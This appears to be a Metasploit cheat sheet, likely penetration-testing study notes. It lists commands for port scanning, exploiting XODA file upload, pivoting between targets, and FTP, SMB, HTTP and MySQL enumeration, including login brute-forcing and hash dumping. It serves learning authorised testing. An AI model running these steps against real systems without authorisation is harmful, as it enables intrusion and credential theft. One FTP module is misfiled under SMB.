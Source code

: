 ```bash
# Port Scan example
workspace -a Port_scan
search portscan
use auxiliary/scanner/portscan/tcp
show options
set RHOSTS <TARGET_IP>
set PORTS 1-1000
run

# Exploitation
search xoda
use exploit/unix/webapp/xoda_file_upload
set RHOSTS <TARGET_IP>
set TARGETURI /
run

# Pivoting to TARGET2 through TARGET1
run autoroute -s <TARGET1_SUBNET_NETWORK>
background
use auxiliary/scanner/portscan/tcp
set RHOSTS <TARGET2_IP>
run
```

```bash
# UDP Scan
search udp_sweep
use auxiliary/scanner/discovery/udp_sweep
set RHOSTS <TARGET_IP>
run
```

```bash
# Service Enumeration

# FTP
use auxiliary/scanner/ftp/ftp_version
use auxiliary/scanner/ftp/ftp_login
use auxiliary/scanner/ftp/anonymous

# SMB
use auxiliary/scanner/ftp/anonymous
use auxiliary/scanner/smb/smb_enumusers
use auxiliary/scanner/smb/smb_enumshares
use auxiliary/scanner/smb/smb_login

# HTTP
use auxiliary/scanner/http/apache_userdir_enum
use auxiliary/scanner/http/brute_dirs
use auxiliary/scanner/http/dir_scanner
use auxiliary/scanner/http/dir_listing
use auxiliary/scanner/http/http_put
use auxiliary/scanner/http/files_dir
use auxiliary/scanner/http/http_login
use auxiliary/scanner/http/http_header
use auxiliary/scanner/http/http_version
use auxiliary/scanner/http/robots_txt

# MYSQL
use auxiliary/admin/mysql/mysql_enum
use auxiliary/admin/mysql/mysql_sql
use auxiliary/scanner/mysql/mysql_file_enum
use auxiliary/scanner/mysql/mysql_hashdump
use auxiliary/scanner/mysql/mysql_login
```